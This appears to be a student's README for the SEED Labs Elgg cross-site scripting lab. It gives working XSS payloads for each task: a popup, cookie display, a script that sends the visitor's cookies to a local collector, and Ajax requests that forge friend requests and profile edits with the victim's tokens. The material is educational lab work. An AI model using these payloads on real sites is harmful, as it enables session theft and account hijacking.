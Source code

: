 # Independent study on web security issues( Based on Seedlab, Syracuse University) 

## Cross site Scripting 

### Useful Links:
* Web and network security, CS 155, Stanford University, https://crypto.stanford.edu/cs155/
* https://excess-xss.com/
* Seedlab, Syracuse University,http://www.cis.syr.edu/~wedu/seed/ 

### Tasks:

#### A simple blogpost application in php 
* Link : https://gitlab.com/shivapbhusal/app_analysis/tree/shiva/security_examples/xss
* Shows how attackers can inject malicious JavaScript code to the system and perform evil activities. 

#### SeedLab Activities 
Link : http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_XSS_Elgg/Web_XSS_Elgg.pdf
#### Task 1: Popup window
The user injects this code in his profile. When other user visits his profile, a popup window appears. 

```javascript
<script>
alert('XSS attack');
</script>
```

#### Task 2 : Display cookies 

```javascript
<script>
alert(document.cookie);
</script>
```

#### Task 3: Stealing cookies: 
The TCP server program in c can be used to view the cookie information from the port 5555. 

```javascript
<script>
document.write('<img src=http://127.0.0.1:5555?c='+escape(document.cookie) + '   >');
</script>
```

#### Task 4 : Sending the friend request on behalf of the user. 
If I inject this code to my profile, whoever visits my profile will send a friend request to me. 

```javascript
<script>
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=40"+ts+token; 
var Ajax=new XMLHttpRequest ();
Ajax.open("GET",sendurl,true); 
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send(); 
</script>
```

#### Task 5: Changing the profile information of the user. 
It is not working properly. The draft code for the post request looks like this. We need to figure out how we can get name and other information 

```javascript 
<script>
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
var content=ts+token+"&name=Charlie&description=Samy_is_my_hero&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=41"; 
Ajax.send(content);
</script>
```
